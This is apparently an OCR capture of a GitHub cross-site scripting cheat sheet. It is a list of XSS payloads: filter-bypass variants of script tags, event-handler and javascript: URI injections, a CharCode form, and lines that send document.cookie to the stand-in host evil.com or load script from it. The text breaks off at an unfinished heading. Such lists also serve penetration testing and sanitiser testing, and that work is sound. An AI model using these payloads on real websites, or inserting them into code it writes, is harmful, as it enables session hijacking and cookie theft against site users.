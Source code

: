 <script>alert(document.domain);</script>
<a href="javascript:alert(document.domain)">javascript:alert(document.domain)</a>
"><svg/onload=confirm(1)>"@gmail.com



## XSS Payload
--------------------------------------------------------------------
XSS Locators:
'q';!--"xss"<XSS>=&{(p)}
--------------------------------------------------------------------
Classic Payloads:
<svg onload=alert(1)>
"><svg onload=alert(1)>
<iframe src="javascript:alert(1)">
"><script src=data:&comma;alert(1)//
--------------------------------------------------------------------
script tag filter bypass:
<svg/onload=alert(1)>
<script>alert(1)</script>
<script     >alert(1)</script>
<ScRipT>alert(1)</sCriPt>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
--------------------------------------------------------------------
HTML tags:
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
--------------------------------------------------------------------
Other tags:
<BASE HREF="javascript:alert('XSS');//">
<DIV STYLE="width: expression(alert('XSS'));">
<TABLE BACKGROUND="javascript:alert('XSS')">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<xss id=x tabindex=1 onactivate=alert(1)></xss>
<xss onclick="alert(1)">test</xss>
<xss onmousedown="alert(1)">test</xss>
<body onresize=alert(1)>”onload=this.style.width=‘100px’>
<xss id=x onfocus=alert(document.cookie)tabindex=1>#x’;</script>
hasanqoli" onfocus='alert(document.domain)'
<input type="hidden" name="p3" value="hasanqoli" accesskey="X" onclick="alert(document.domain)">
--------------------------------------------------------------------CharCode:
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
--------------------------------------------------------------------
if the input is already in script tag:
